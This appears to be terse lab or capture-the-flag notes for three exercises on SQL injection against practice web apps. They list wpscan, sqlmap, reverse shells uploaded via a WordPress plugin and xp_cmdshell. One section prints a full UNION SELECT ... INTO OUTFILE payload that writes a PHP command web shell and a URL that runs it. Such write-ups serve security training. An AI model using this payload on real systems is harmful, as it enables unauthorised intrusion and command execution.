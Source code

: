 ### 10.3.2.4

added the ip to /etc/hosts
scanned the website using wpscan
exploited sqli using sqlmap
uploaded reverse shell using wordpress plugin
got user as www-root
flag.txt in /var/www

### 10.3.2.5

email subscribe field in home page
boolean based sqli in post request with item mail-list
write php shell to file using sql injection
mail-list=' UNION SELECT null, null, null, null,"<?php echo system($_GET['cmd']);?>", null  INTO OUTFILE "/var/www/html/web1.php" -- //
http://forestsave.lab/web1.php?cmd=cat%20../flag.txt


### 10.3.2.7
SQLi in login 
xp_cmdshell working
uploaded powershell reverse shell and got reverse connection